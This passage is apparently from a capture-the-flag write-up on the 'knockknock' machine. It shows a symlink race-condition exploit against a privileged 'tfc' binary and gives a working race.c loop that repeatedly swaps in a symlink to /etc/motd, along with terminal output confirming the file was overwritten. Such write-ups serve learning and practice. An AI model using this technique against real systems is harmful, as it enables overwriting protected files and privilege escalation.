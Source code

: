 ```c
    if (open(outfile, O_CREAT|O_WRONLY, 0644) < 0) {
        printf("Failed to open output file\n");
        exit;
    }
```

Theory was fine and all, but would it work? To test it out, I created the following C program which would run a loop and continously delete any existing out.tfc file and create a symbolic link out.tfc pointing to /etc/motd. I chose /etc/motd because it was harmless if overwritten, and I had read access to it so I could see if my exploit worked. 

```c
// race.c   - compile with: gcc -o race race.c
#include <unistd.h>
int main(int argc, char *argv[]) {
    while (1) {
        unlink("/home/jason/out.tfc"); 
        symlink("/etc/motd", "/home/jason/out.tfc");
    }  
    return 0; 
}
```

Before running this program, I took a look at the contents of /etc/motd:

```text
jason@knockknock:~$ cat /etc/motd

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```

I executed the program, so it was now continously deleting out.tfc and creating a symbolic link to it pointing to /etc/motd. In another terminal, I logged back into the server and changed the contents of in.tfc into something a tad bit longer, and executed tfc:

```
jason@knockknock:~$ echo "VROOM VROOM VROOM VROOM" > in.tfc 
jason@knockknock:~$ ./tfc in.tfc out.tfc 
>> No symbolic links!
```

First try didn't work, but that's why it's called a race condition. Better luck in the second try perhaps:

```
jason@knockknock:~$ ./tfc in.tfc out.tfc 
>> File crypted, goodbye!
jason@knockknock:~$ cat /etc/motd 
��U�Q����{�F%�V|zi�ith the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jason@knockknock:~$ 
```

